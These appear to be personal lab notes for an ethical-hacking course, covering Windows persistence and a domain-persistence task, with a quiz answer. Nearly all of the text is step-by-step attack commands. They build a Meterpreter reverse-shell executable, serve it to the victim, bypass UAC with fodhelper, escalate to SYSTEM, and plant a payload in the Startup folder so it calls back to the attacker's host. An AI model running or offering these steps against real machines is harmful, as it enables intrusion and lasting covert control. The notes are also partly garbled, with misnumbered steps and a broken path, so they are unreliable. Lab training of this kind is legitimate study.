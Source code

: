 **StegOnline** 
	https://www.georgeom.net/StegOnline/
	**LAB Manual 2** - page 813

### Task 6: Maintain Persistence by Abusing Boot or Logon Autostart Execution
---
#81
**Parrot**
>**Terminal 1**
1. msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.11.10 lport=4444 -f exe > /home/attacker/Desktop/exploit.exe
2. cp /home/Desktop/attacker/Desktop/exploit.exe /var/www/html/share/
3. service apache2 start
4. msfconsole
5. use exploit/meterpreter/reverse_tcp
6. set lhost 10.10.11.10
7. set lport 4444
8. set payload windows/meterpreter/reverse_tcp
9. exploit
13. background
14. use exploit/windows/local/bypassuac_fodhelper
15. set session 1
16. set lhost 10.10.11.10
17. set target 0
18. exploit
19. getsystem -t 1
20. getuid
21. cd `"C:\\ProgramData\\Start Menu\\Programs\\Startup"`
22. pwd
24. upload /home/attacker/payload.exe
> Terminal 2
23. msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.11.10 lport=8080 -f exe > payload.exe
25. msfconsole 
26. use exploit/multi/handler
27. set payload windows/meterpreter/reverse_tcp
28. set lhost 10.10.11.10
29. set lport 8080
30. exploit
**Windows**
10. In **Web Browser** visit **http://10.10.11.10/share**
11. Click & Download **exploit.exe** 
12. Open **exploit.exe**
31. Restart the System

### ==Task 7: Maintain Domain Persistence by Exploiting Active Directory Objects==
Adding Domain Admin from Domain User
#82

States exploit active directory objects and adding martin a standard user into the 2022 server to a domain admins group through the admin SD holder and the name of the user that is added into the domain admins group in this task.
**ANS - Martin**
**Parrot**
1. msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.11.10 lport=4444 -f exe > /home/attacker/Desktop/exploit.exe
2. cp /home/attacker/Desktop/exploit.exe /var/www/html/share/
3. service apache2 start
4. msfconsole
5. use exploit/meterpreter/reverse_tcp
6. set lhost 10.10.11.10
7. set lport 4444